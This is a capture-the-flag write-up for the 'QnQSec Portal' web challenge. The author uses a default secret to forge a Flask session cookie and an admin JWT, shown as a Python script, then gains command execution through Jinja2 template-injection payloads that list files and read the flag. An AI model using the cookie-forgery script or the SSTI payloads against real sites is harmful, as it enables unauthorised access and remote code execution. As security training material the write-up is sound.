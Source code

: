 # QnQSec Portal — QnQSec CTF 2025

> **Room / Challenge:** QnQSec Portal (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** QnQSec CTF 2025
- **Challenge:** QnQSec Portal (web)
- **Target / URL:** `http://161.97.155.116:5001/`
- **Points:** `50`
- **Date:** `20-10-2025`

---

## Goal

We have to get the flag by get access as admin.

## My Solution

First we have to examine the [app.py](./app.py). There are some noticable routes:

/login route:

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('login.html')

    db = get_db()
    row = db.execute(
        'select username, password from users where username = lower(?) and password = ?',
        (username, md5(password.encode()).hexdigest())
    ).fetchone()

    if row:
        session['user'] = username.title()


        role = "admin" if username.lower() == "flag" else "user"
        token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])

        resp = make_response(redirect(url_for('account')))
        resp.set_cookie("admin_jwt", token, httponly=False, samesite="Lax")
        return resp

    flash('Invalid username or password', 'error')
    return render_template('login.html')

```

/account route:

```python
@app.route('/account')
def account():
    user = session.get('user')
    if not user:
        return redirect(url_for('login'))
    if user == 'Flag':
        return render_template('account.html', user=user, is_admin=True)
    return render_template('account.html', user=user, is_admin=False)
```

If we try sign up an account and login we can see that there are 2 authentication and authorization keys `admin_jwt` and `session` in cookies:

![Guide image](./screenshots/1.png)

and this is the UI:
![Guide image](./screenshots/2.png)

Initially, I thought that I will brute-force the password of the `flag` account since `flag` is the admin:

```python
def init_db():
    with sqlite3.connect(DB_PATH, timeout=10) as db:
        db.execute('PRAGMA journal_mode=WAL')
        db.execute('drop table if exists users')
        db.execute('create table users(username text primary key, password text not null)')

        db.execute('insert into users values("flag", "401b0e20e4ccf7a8df254eac81e269a0")')
        db.commit()
```

and the password is hash by this algorithm:

```python
md5(password.encode()).hexdigest()
```

However I have tried using several common passwords list, all are incorrect so I think it is a dead end.

After some time examining the code, I found the admin_jwt can be encoded correctly for the back-end to verify it:

```python
token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])
```

The `JWT_SECRET` is implemented by this:

```python
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
```

If the `Q_SECRET` is undefined then it takes `qnqsec-default`, I have checked my created `JWT_SECRET` with the `admin_jwt` value from server it said correct in [jwt.io](https://jwt.io):

![Guide image](./screenshots/3.png)

However the `/account` page validates the `session` value it also use the `base` value as `SECRET_KEY`:

```python
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
```

Therefore, we can easily implement our own session value and gain access as `flag`, which means `admin`. Here is our strategy we will create a JWT with this payload:

```python
{
    "sub": "Flag",
    "role": "admin",
}
```

Then create a `session` with this payload:

```python
{"user": "Flag"}
```

Here is the code to create JWT and session:

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
import hashlib
import jwt

app = Flask(__name__)
app.secret_key = hashlib.sha1(("pepper:" + "qnqsec-default").encode()).hexdigest()


serializer = SecureCookieSessionInterface().get_signing_serializer(app)

session_data = {"user": "Flag"}

session_cookie_value = serializer.dumps(session_data)
print("session cookie value:\n", session_cookie_value)

secret = hashlib.sha256(b"jwtpepper:qnqsec-default").hexdigest()
payload = {
    "sub": "Flag",
    "role": "admin",
    "iat": 1760794390,
    "exp": 9999999999
}
headers = {"typ":"JWT", "alg":"HS256"}
token = jwt.encode(payload, secret, algorithm="HS256", headers=headers)
if isinstance(token, bytes):
    token = token.decode()

print("admin_jwt token:\n", token)
```

Use the created JWT and session to change value in browser and go to `/account`:

![Guide image](./screenshots/4.png)

Visit `/admin`:

![Guide image](./screenshots/5.png)

Server-side template injection now takes place, we can try `{{ 7*7 }}` and got `49`. We can use template injection here:

```
{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}
```

Result:

```bash
total 4608 drwxr-xr-x 1 ctf ctf 4096 Oct 20 02:31 . drwxr-xr-x 1 root root 4096 Oct 17 10:45 .. -rw-r--r-- 1 ctf ctf 473 Oct 17 01:18 Dockerfile -rw-r--r-- 1 ctf ctf 842 Oct 16 23:46 README.md drwxr-xr-x 1 ctf ctf 4096 Oct 17 10:45 __pycache__ -rw-r--r-- 1 ctf ctf 1637 Oct 16 23:46 admin_routes.py -rw-r--r-- 1 ctf ctf 0 Oct 18 13:54 ale -rw-r--r-- 1 ctf ctf 4295 Oct 16 23:46 app.py -rw-r--r-- 1 ctf ctf 0 Oct 17 18:32 awikwok -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 awokawok -rw-r--r-- 1 ctf ctf 105 Oct 16 23:49 compose.yml -rw-r--r-- 1 ctf ctf 17359 Oct 17 19:19 index.html -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 jejak -rw-r--r-- 1 ctf ctf 0 Oct 18 05:33 ninggalin -rw-r--r-- 1 ctf ctf 12 Oct 16 23:46 requirements.txt drwxr-xr-x 1 ctf ctf 4096 Oct 17 13:49 secret drwxr-xr-x 1 ctf ctf 4096 Oct 16 23:46 static drwxr-xr-x 1 ctf ctf 4096 Oct 16 23:46 templates -rw-r--r-- 1 ctf ctf 4636672 Oct 20 02:11 users.db
```

Next:

```
{{ cycler.__init__.__globals__.os.popen('ls -la ./secret').read() }}
```

Result:

```bash
total 16 drwxr-xr-x 1 ctf ctf 4096 Oct 17 13:49 . drwxr-xr-x 1 ctf ctf 4096 Oct 20 02:31 .. -rw-r--r-- 1 ctf ctf 40 Oct 16 23:46 flag.txt
```

Get the flag:

```
{{ cycler.__init__.__globals__.os.popen('cat ./secret/flag.txt').read() }}
```

Flag: `QnQsec{b4efafeb4bd43c404e425ea6d664a0f6}`
